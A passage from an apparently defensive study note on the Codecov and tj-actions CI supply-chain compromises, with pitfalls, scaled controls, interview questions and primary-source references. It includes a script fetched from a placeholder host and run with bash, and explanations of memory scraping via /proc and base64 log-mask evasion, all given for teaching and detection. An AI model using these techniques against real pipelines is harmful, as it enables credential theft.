| Workflow lockfiles | GA 2026-10-28, `.github/workflows/actions.lock`, `gh actions-lock` extension | GitHub.com, as of 2026-11 |
| Codecov CLI signing key | key ID `ED779869`, via Keybase | Both, as of 2026-11 |

### Pitfalls

> [!warning] Pitfalls:
> - A checksum fetched from the same server as the file proves nothing against an attacker who controls that server.
>   Pull the expected hash from your repository or a different origin.
> - Pinning the top-level action to a SHA does not pin what that action calls.
>   Composite actions can contain `uses: x@v1` internally, and JavaScript actions can download tools at run time.
> - Rotating only the secrets you found in the log leaves the rest of the job's secrets exposed.
>   A memory scrape captures the whole set, so rotate every secret the job could see.
> - Deleting a workflow log does not un-leak a public secret.
>   Assume anyone watching the repository copied it; rotate first, clean up second.
> - Using a third-party fork of a compromised action as a fix swaps trust in one maintainer for trust in another; pin its SHA and read the diff.
> - A single `base64 -w 0` flag is GNU coreutils syntax, so a payload guarded by `OSTYPE` will not run on macOS or Windows runners, which can make a compromise look absent in your macOS-only jobs.
>   Do not conclude you were unaffected from one platform's logs.
> - `permissions: {}` at workflow level without per-job grants breaks steps that need `contents: read`, so teams revert to broad write permissions.
>   Grant per job instead.

### At Scale

For one repository a maintainer can pin by SHA by hand.
At 1,000 to 50,000 engineers the unit of control moves from the repository to the organization, and the decisions are different:

| Decision | Single repository | Organization at scale | Rule |
|---|---|---|---|
| Action references | SHA by hand | Allowed-actions policy that requires SHA pinning, plus lockfile and a Require lockfile policy where available | Enforce in policy, not in code review |
| Which actions are allowed | Whatever you use | Allowlist of vetted actions and vetted forks, with an `!` block entry for a known-bad one (changelog 2025-08-15) | A blocklist is evaluated last and overrides any allow rule, so an incident can be contained in minutes |
| Updates | Manual | Dependabot or Renovate updating SHAs and lockfile entries, with a delay (cooldown) before adoption | A cooldown of days would have skipped a malicious tag that was reverted within about a day, see [[Enterprise-Third-Party-Code-Ingestion-and-Quarantine-Architecture]] |
| Secrets | Repository secrets | Environment-scoped secrets and OIDC federation; an inventory of long-lived credentials with owners | Count of long-lived CI secrets is the metric to drive down |
| Detection | Notice something odd | Egress baseline per job, runtime telemetry for `/proc/*/mem` reads and base64 pipes, and a query for any run that used a now-compromised action and version | Keep a record of resolved commits per run, which lockfiles produce |
| Incident response | Rotate by hand | A runbook to enumerate every run of an affected action in a time window, rotate every secret in scope, and review logs of public repositories | See [[Respond-to-a-Compromised-Transitive-Dependency]] |
| Self-hosted runners | Rare | Ephemeral, one job per runner, no reuse | GitHub's docs say self-hosted runners "do not have guarantees around running in ephemeral clean virtual machines" and should almost never be used for public repositories |

The cost of these controls is real: a lockfile or SHA pin delays security fixes in actions until a bot updates it, a per-job egress allowlist needs maintenance as tools change their endpoints, and splitting jobs adds artifact transfers and queue time.
The decision rule is by blast radius: any job that can publish, deploy, or touch production gets the full set; a job that only lints gets the cheap subset (no secrets, read-only token, pinned actions).

> [!tip] Practice Drill:
> Take one real release workflow and produce its secret inventory: for each job list every secret and token it can see, how long that credential lives, and which third-party steps run in that job.
> Then split the job so that no job contains both a third-party step and a long-lived credential, and replace one stored cloud key with OIDC federation.
> For the audit procedure, use [[Audit-and-Harden-a-GitHub-Actions-Release-Pipeline]], and for a worked forensic exercise on a related build-time attack see [[Drill-Supply-Chain-Detect-Tarball-vs-Git-Tag-Backdoor]].

## Interview Questions

> [!question] L5: Shared property and control
> Both incidents ran attacker code that nobody wrote into the victim's repository.
> What is the one property they share, and what single control addresses it?
>
> > [!success]- Answer
> > Both resolved a mutable name at run time: a URL whose content changed for Codecov, and a Git tag that was force-moved for tj-actions.
> > Nothing tied the executed bytes to the bytes that were reviewed.
> > The control is to resolve once, record an immutable identifier (a content hash for a downloaded script, a full commit SHA for an action), and fail the run on mismatch.
> > The trade-off is that you now own the update cadence, which is usually automated with Dependabot or Renovate.

> [!question] L5: Why did `|| true` and `-m 0.5` matter in the line added to the Bash Uploader?
>
> > [!success]- Answer
> > They removed the two ways the exfiltration could have been noticed.
> > `-m 0.5` caps the request at half a second, so a slow or dead server cannot visibly slow the build.
> > `|| true` makes a failed request return success, so `set -e` or a step failure cannot expose it.
> > `-s` hides progress output.
> > Together they make the line free of side effects visible to a person reading build logs or watching job duration.

> [!question] L5: Predict the output (exported variables)
> A CI step runs `export A=1; B=2; bash -c 'env | grep -E "^(A|B)="'`.
> What does it print, and what does that tell you about the Codecov payload?
>
> > [!success]- Answer
> > It prints `A=1` only (verified once on macOS arm64, bash from the default shell, as an ad hoc check, not a lab).
> > `B` is a shell variable that was not exported, so the child process does not inherit it and `env` does not list it.
> > The Codecov line used `$(env)` in a child of the CI step, so it saw only exported variables of that step: secrets mapped into the step's environment, and not a credential held in an unexported variable or only in another step's environment.
> > That is why scoping secrets to the specific step that needs them reduces Codecov-class loss, and why it does not reduce tj-actions-class loss.

> [!question] L6: Predict the output (double base64)
> The log of a compromised step contains `UlZoQlRWQk1SUzFPVDFRdFFTMVNSVUZNTFZORlExSkZWQT09Cg==`.
> What do `base64 -d` and `base64 -d | base64 -d` print, and why did the attacker encode twice?
>
> > [!success]- Answer
> > The first `base64 -d` prints `RVhBTVBMRS1OT1QtQS1SRUFMLVNFQ1JFVA==`, which is another base64 string.
> > The second decode prints `EXAMPLE-NOT-A-REAL-SECRET` (both verified once locally on macOS arm64 with a placeholder, not a real secret).
> > The advisory gives the same decode procedure for the real payload, which was the grep-selected `isSecret` fragments encoded twice.
> > Log masking replaces known secret values and the GitHub documentation says redaction is "not guaranteed" and can fail on transformed or structured data.
> > A twice-encoded list of JSON fragments is not a string the masker knows, so it reaches the log intact.
> > The sources do not state the attacker's reason, so the masker-evasion explanation is an inference.

> [!question] L6: Debug this (pinned and still exposed)
> A team pins `reviewdog/action-shellcheck` to a full SHA, yet its runs were exposed on 2025-03-11.
> What did they miss?
>
> > [!success]- Answer
> > ```yaml
> > - uses: reviewdog/action-shellcheck@<40-hex-sha>   # pinned
> >   with:
> >     reporter: github-pr-review
> > ```
> > The pinned action is a composite action that internally uses `reviewdog/action-setup@v1`, a tag.
> > When `v1` was moved on 2025-03-11 (18:42 to 20:31 UTC), the composite pulled the malicious `action-setup` at run time, so the pin on the outer line did not help.
> > The advisory says the downstream reviewdog actions were affected "regardless of version or pinning method".
> > The fix is to pin or lock the transitive references too, which is what workflow lockfiles (GA 2026-10-28) do, or to vendor the action and review its internals.

> [!question] L6: Debug this (integrity check that cannot fail)
> A script passes its integrity check and still runs attacker code.
> Why?
>
> > [!success]- Answer
> > ```bash
> > curl -fsSL https://tools.example.invalid/up.sh -o up.sh
> > curl -fsSL https://tools.example.invalid/up.sh.sha256 -o up.sh.sha256
> > sha256sum -c up.sh.sha256 && bash up.sh
> > ```
> > Both the script and its hash come from the same origin.
> > An attacker with the Codecov-style credential that can overwrite the script can overwrite the hash file in the same operation, so the check compares the attacker's file to the attacker's hash.
> > Hold the expected hash in your own repository, changed only by reviewed pull request, or verify a detached signature against a key you obtained out of band, as the Codecov CLI docs now describe with a GPG key ID.
> > The 2021 detection worked because the customer compared against shasums published on GitHub, a different system from the one that served the script.

> [!question] L6: Why does `sudo python3` appear in the tj-actions payload, and what does reading `/proc/<pid>/mem` require?
>
> > [!success]- Answer
> > Access to `/proc/<pid>/mem` is governed by a `PTRACE_MODE_ATTACH_FSCREDS` check (proc_pid_mem(5)).
> > Under Yama `ptrace_scope` 1, a process may attach only to its descendants, and `Runner.Worker` is the parent of the step, not a descendant of it.
> > Root has `CAP_SYS_PTRACE`, so running the reader as root avoids the restriction.
> > That the payload runs under `sudo` is reported by StepSecurity, and GitHub documents that its hosted Linux and macOS virtual machines run with passwordless `sudo`, so any step can become root.
> > Defensively this means a runtime rule for a process reading another process's `/proc/*/mem` is a high-signal detection on CI workers.

> [!question] L7: Limits of SHA pinning
> tj-actions was exploited about 22 hours (or up to 3.5 days by CISA's window) before removal.
> A colleague proposes SHA pinning everywhere as the full answer.
> Where does it fall short, and what do you add?
>
> > [!success]- Answer
> > SHA pinning stops tag movement on the lines it covers.
> > It does not cover transitive mutable references inside composite actions, does not stop a SHA that is itself malicious (for example a commit reachable only through a fork network, which the Secure use reference warns about), and does not limit what a malicious but pinned action can do once it runs.
> > Add controls on the other axis: no secrets in jobs that run third-party steps, OIDC and short-lived tokens so a memory scrape yields little, an egress allowlist so a leak cannot leave the runner, environment protection for publishing, and lockfiles for transitive dependencies.
> > Also add an update cooldown so a freshly moved tag is not adopted automatically, and detection (runtime `/proc` memory reads, long base64 in logs).
> > The principle is to assume one third-party step is eventually hostile and bound what it can reach.

> [!question] L7: Design the secret model for a release pipeline so that a tj-actions-class compromise of a lint step cannot reach production credentials.
>
> > [!success]- Answer
> > Split the pipeline into jobs by trust level.
> > A `lint` job runs third-party actions, has `permissions: {contents: read}` or none, and maps no secrets.
> > A `build` job builds with pinned first-party steps and uploads an artifact.
> > A `publish` job depends on `build`, targets a protected environment with required reviewers and branch rules, uses `id-token: write` to exchange an OIDC token for a short-lived cloud credential bound to the repository, ref, and environment claims, and runs only pinned or locked steps.
> > Because each hosted-runner job runs on its own virtual machine, a memory scrape in `lint` finds none of the `publish` secrets.
> > Egress for `publish` is allowlisted to the registry and cloud endpoints.
> > The cost is added pipeline latency and artifact hand-offs, which is acceptable for a release pipeline.
> > Provenance of the artifact is the next layer, covered by [[SLSA-Framework-Build-and-Source-Tracks]].

> [!question] L7: Detection interval
> Codecov took about 60 days to be detected and 14 more to notify.
> What detection would have shortened the first interval, and why did Codecov's published shasum work as a detector?
>
> > [!success]- Answer
> > A scheduled comparison of the served script against an independently stored hash would have detected the change within one polling interval, on Codecov's side or any customer's side.
> > The published shasum worked because it lived on a different system (GitHub) from the one the attacker could write to (the hosted script, via a GCS key).
> > It failed to protect most customers because almost none verified it: the control existed but was opt-in and manual.
> > Egress monitoring in customer CI would also have flagged an unexpected POST to an unknown IP.
> > The lesson is that an integrity reference only protects those who check it, so make the check automatic, in the pipeline, and fail closed.

> [!question] L8+: First four hours at 20,000 engineers
> You own CI security for 20,000 engineers on GitHub Enterprise Cloud.
> A new Actions compromise is announced at 02:00.
> Describe the first four hours and the standing controls that make them short.
>
> > [!success]- Answer
> > Standing controls: an allowed-actions policy with SHA pinning required and a Require lockfile policy where adopted, per-job egress baselines, environment-scoped secrets and OIDC wherever a provider supports it, an inventory of long-lived CI credentials with owners, and a searchable record of the resolved commit of every action per run.
> > First hour: add the action and versions to the block list, which is evaluated after allow rules and overrides them, so no new run can use it; confirm with a test run.
> > Hours one to three: query run records for every run that resolved to the affected action or commit in the window (using the widest published window, since sources disagreed by days in 2025), and list the secrets each such job could see, which is the whole job's set, not only the step's mapped variables.
> > Rotate those secrets in order of blast radius, starting with anything that can publish or deploy, then review logs of public repositories for long base64 and delete or restrict them while treating the content as already public.
> > Hour three to four: communicate, and open a follow-up to reduce long-lived secrets in the jobs that were exposed.
> > The reason it is short is that rotation scope is known in advance; the reason it is not shorter is that rotating a production credential has its own change process, which you design ahead of time.

## References

Pinned primary sources, each fetched while writing this note, with the claim it supports.

- Codecov security update and FAQ, https://about.codecov.io/security-update/ - dates, the added line, the GCS key, affected uploaders, remediation, IOCs.
- Rapid7 analysis, https://www.rapid7.com/blog/post/2021/04/16/codecov-discloses-supply-chain-compromise/ - classes of exposed credentials, host-compromise caveat.
- CISA alert, https://www.cisa.gov/news-events/alerts/2021/04/22/codecov-releases-security-update - guidance on re-rolling credentials and certificates.
- Unit 42 on the Codecov uploader, https://unit42.paloaltonetworks.com/codecov-bash-uploader - affected wrappers and detection coverage.
- CNCF TAG Security catalog entry, https://tag-security.cncf.io/community/catalog/compromises/2021/codecov/ - classification as a source-credential compromise.
- `codecov-bash` README, https://github.com/codecov/codecov-bash - verification snippet and sunset notice.
- Codecov CLI documentation, https://docs.codecov.com/docs/codecov-uploader - GPG and SHASUM integrity check.
- HashiCorp bulletin HCSEC-2021-12, https://discuss.hashicorp.com/t/hcsec-2021-12-codecov-security-event-and-hashicorp-gpg-key-exposure/23512 - a downstream victim's account: GPG release-signing key exposed, revoked, and replaced.
- GHSA-mrrh-fwg8-r2c3, https://github.com/advisories/GHSA-mrrh-fwg8-r2c3 - affected range, fixed version, CVSS, IOCs, decode procedure.
- GHSA-qmg3-hpqr-gqvc, https://github.com/advisories/GHSA-qmg3-hpqr-gqvc - reviewdog `action-setup` window, downstream actions.
- StepSecurity analysis, https://www.stepsecurity.io/blog/harden-runner-detection-tj-actions-changed-files-action-is-compromised - decoded payload, GitHub removal and restore times, discovery.
- Snyk reconstruction, https://snyk.io/blog/reconstructing-tj-actions-changed-files-github-actions-compromise/ - `dist/index.js` injection and `memdump.py` logic.
- Sysdig, https://sysdig.com/blog/detecting-and-mitigating-the-tj-actions-changed-files-supply-chain-attack-cve-2025-30066/ - runtime detections.
- Aqua, https://www.aquasec.com/blog/github-action-tj-actions-changed-files-compromised/ - scope and remediation.
- CISA alert, https://www.cisa.gov/news-events/alerts/2025/03/18/supply-chain-compromise-third-party-tj-actionschanged-files-cve-2025-30066-and-reviewdogaction - exposure window, KEV listing, reviewdog link.
- Wiz, https://www.wiz.io/blog/new-github-action-supply-chain-attack-reviewdog-action-setup - reviewdog payload, pinning caveat.
- Unit 42 on the tj-actions chain, https://unit42.paloaltonetworks.com/github-actions-supply-chain-attack/ - PAT leak, fork timeline, the SpotBugs `pull_request_target` origin (update of 2025-04-02).
- Semgrep, https://semgrep.dev/blog/2025/popular-github-action-tj-actionschanged-files-is-compromised/ - timeline and pin guidance.
- tj-actions incident threads, https://github.com/tj-actions/changed-files/issues/2464 - maintainer statements on root cause.
- GitHub Docs, Secure use reference, https://docs.github.com/en/actions/reference/security/secure-use - pinning, redaction limits, self-hosted runners.
- GitHub Docs, GITHUB_TOKEN, https://docs.github.com/en/actions/concepts/security/github_token - token lifetime.
- GitHub Docs, OpenID Connect, https://docs.github.com/en/actions/concepts/security/openid-connect - short-lived credentials and claims.
- GitHub Changelog entries for SHA pinning policy (2025-08-15), immutable releases GA (2025-10-28), workflow lockfiles GA (2026-10-28), and `pull_request_target` default block (2026-11-02), URLs in the frontmatter.
- actions/runner `ValueEncoders.cs`, https://github.com/actions/runner/blob/main/src/Sdk/DTLogging/Logging/ValueEncoders.cs - the list of masking encoders.
- Yama documentation, https://docs.kernel.org/admin-guide/LSM/Yama.html and proc_pid_mem(5), https://man7.org/linux/man-pages/man5/proc_pid_mem.5.html - why the payload needs root to read another process's memory.

## Related

- Prerequisites: [[OpenSSF-Scorecard-and-CI-CD-Pipeline-Hardening]]
- Next: [[Case-Study-PyTorch-torchtriton-and-Dependency-Confusion]]
- See also: [[Audit-and-Harden-a-GitHub-Actions-Release-Pipeline]], [[Respond-to-a-Compromised-Transitive-Dependency]], [[SLSA-Framework-Build-and-Source-Tracks]], [[Enterprise-Third-Party-Code-Ingestion-and-Quarantine-Architecture]], [[Case-Study-SolarWinds-Orion-SUNBURST]], [[Case-Study-Shai-Hulud-and-Self-Replicating-Registry-Worms]]
